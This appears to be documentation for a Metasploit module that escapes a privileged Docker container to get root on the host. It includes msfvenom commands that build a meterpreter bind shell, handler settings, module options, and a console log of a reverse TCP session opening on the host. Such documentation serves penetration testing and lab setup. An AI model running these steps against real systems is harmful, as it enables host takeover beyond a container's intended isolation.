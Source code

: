 ## Vulnerable Application

Docker Privileged Container Escape that obtains root on the host machine by abusing the Linux cgroup notification on rebase feature.

Both meterpreter shell and classic shell are supported. The exploit will copy a payload to a writable directory in the container and then escape the container and either search for the payload on the file system or copy it directly from the container and then execute it on the host. 

# Creating A Testing Environment

- Install Docker
- Create a privileged container (forwarding port 4444 in this example in order to use a bind shell from the host)
```bash
docker run -d -it --name test-vuln-container -p 4444:4444 --privileged ubuntu
```
- Obtain a shell on the container with metasploit. One possible option is:
```bash
# Create a bind shell using msfvenom
msfvenom -p linux/x64/meterpreter/bind_tcp LPORT=4444 -f elf -o ./bind4444.bin
# Copy bind shell into container
docker cp ./bind4444.bin test-vuln-container:/bind4444.bin
# Execute bind shell in the container
docker exec -it test-vuln-container /bind4444.bin
```
- Connect to this bind shell in metasploit
```bash
use multi/handler
set payload linux/x64/meterpreter/bind_tcp
set rhost 127.0.0.1
set lport 4444
run
```

## Verification Steps

1. `use exploit/linux/local/docker_privileged_container_escape`
2. `set SESSION [session]`
3. `set PAYLOAD [payload]`
4. `set LHOST [lhost]`
5. `set LPORT [lport]`
6. `exploit`

## Options

## PAYLOAD

Set this option to choose which type of root session you want to create.

## ForceExploit

Force exploit even if the current session does not appear to be in a docker container, or the container does not appear vulnerable.

## ForcePayloadSearch

Force the exploit to search for the payload in the file system rather than copying out of the docker container. This avoids the need for a writable directory on the host system. Typically, the filesystem of the container will be located in the `/var/lib/docker/overlay2/` directory.

## WritableContainerDir

A directory where we can write files inside the container (default is /tmp). This is needed to drop the payload into the container.

## WritableHostDir

A directory where we can write files on the host (default is /tmp). This is needed to copy the payload from the container onto the host. Alternatively see ForcePayloadSearch

# Scenarios

## Container Escape starting with a meterpreter shell

```
msf5 exploit(multi/handler) > use exploit/linux/local/docker_privileged_container_escape
msf5 exploit(linux/local/lxc_privilege_escalation) > set session 1
session => 1
msf5 exploit(linux/local/lxc_privilege_escalation) > run

[*] Started reverse TCP handler on 10.0.2.15:4444 
[*] Writing payload executable to '/tmp/aLQdBKpMXLo'
[*] Executing script to exploit privileged container
[*] Sending stage (3012516 bytes) to 192.168.0.231
[*] Meterpreter session 4 opened (0.0.0.0:0 -> 192.168.0.231:4444) at 2020-07-19 14:50:51 +0100
```
